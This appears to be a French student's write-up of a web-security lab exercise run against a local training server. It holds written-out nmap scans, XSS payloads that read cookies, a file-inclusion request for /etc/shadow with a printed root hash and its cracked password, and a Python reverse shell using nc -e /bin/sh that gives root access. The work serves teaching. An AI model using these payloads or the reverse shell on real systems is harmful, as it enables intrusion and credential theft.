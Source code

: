 # TP6 : 
## Exercice 1 :

#### Question 4 :

* J'ai fait iut-scan | grep a19 pour écupérer les IPs de la A19, puis j'ai fait un nmap -PO ce toute ces IPs : 
    * nmap -PO 192.168.126.142 192.168.126.144 192.168.126.145 192.168.126.146 192.168.126.147 192.168.126.148 192.168.126.149 192.168.126.150 192.168.126.151 192.168.126.152 192.168.126.153 192.168.126.157 192.168.126.158

* Après scan, on voit que les ports 22,80,111,113 et 3389 sont ouverts sur toute les machines.

#### Question 5 :

* nmap -sS 192.168.126.149

#### Question 6 :

* nmap -A 192.168.126.149

#### Question 7 :

* Ce programme se connecte à SSH et sort differentes informations sur la machine qui a été précisé, en les regroupant dans des catégories, comme "fingerprints" ou alors "host-key algorithms".


---

## Exercice 2 

### Question 1 :

Una attaque XSS réfléchie est une attaque d'insertion de code sur un sitedans l'adresse html.

Pour attaquer le site nous pouvons ajouter le code suivant à l'adresse pour afficher les cookies actuels : 

    http://127.0.0.1:5000/?q="><script> alert(document.cookie)</script>

### Question 2 :

L'attaque stocké a elle lieu sur les site ou l'on peut publier des éléments comme des forum,
Sur notre site on peut injecter en publiant le commentaire suivant pour effectuer la même action :

    <script> alert(document.cookie)</script>


## Exercice 3 :

##### Question 1:

* Lorsqu'on fait une recherche dans les commentaires, on voit que le lien de la page change, en prenant comme arguments un q qui represente le terme que l'on recherche. Par conséquent, si on met q=/etc/shadow, cela affiche un "commentaire" qui represente en fait cette page. Pour éviter cela, il faut configurer le serveur de ce site afin de rediriger les utilisateurs en fonction des caratères qu'ils rentrent, pour éviter qu'ils accèdent à tout.

* Le mot de passe root est :

    \$6\$xfQ2f9VFUa4pWlZh$XoLIEf1CesvhMsBM24Tnn1LBd2U7OMtzUWf4Or5Dd9DcAjEDoeFvzI4PgSAaJA1z9tg1Lvto4W/bUMubt

Qui donne au final domino.

* Le lien : http://127.0.0.1:5000/?q=/etc/shadow

#### Question 2 :

* Comme pour la question précédente, on rajoute dans l'argument q le lien vers la page, donc http://perdu.com.

* Nous avons donc un lien comme ceci : http://127.0.0.1:5000/?q=http://perdu.com

* Pour contrer cette attaque, comme pour la question 1, il faut faire des redirections lorsqu'on modifie le lien.

#### Question 3 :

* Pareil que la question précédente, on met le lien dans l'argument q du site. Cependant, cette fois le lien que l'on intègre est prévu pour cela, donc on effectue une attaque sur le site et on demande des bitcoins en échange du décryptage de nos fichiers.

* Le lien de la page : http://127.0.0.1:5000/?q=https://sancy.iut.uca.fr/~lafourcade/SECWEB/attack.pyb

* Même vulnerabilité que la question précédente.

## Exercice 4 :

### Question 1 : 
En exécutant la commande suivante, on se rend compte que nous sommes sur le serveur :

    print(os.getcwd())

### Question 2 : 

On peut ouvrir le port en écoute sur le nouveau terminal avec la commande suivante( l'option k est pratique mais bloque l'attaque): 

    nc -l 5555 -v 

### Question 3 : 

Pour exécuter des commandes bash en Python on peut utiliser la librairie subprocess, le résultat est affiché côté serveur, seul le code de retour est côté client: 

    import subprocess
    subprocess.run("ls")

### Question 4 :

On se connecte au nc qui écoute et on lance le /bin/sh sur celui-ci avec : 

    subprocess.run(["nc","host.docker.internal","55555","-e","/bin/sh"])

On a alors accès à un terminal en tant que root sur le serveur.

### Question 5 :
On peut voir en tapant la commande whoami sur le terminal en écoute que l'on est root sur le serveur : 

    whoami 
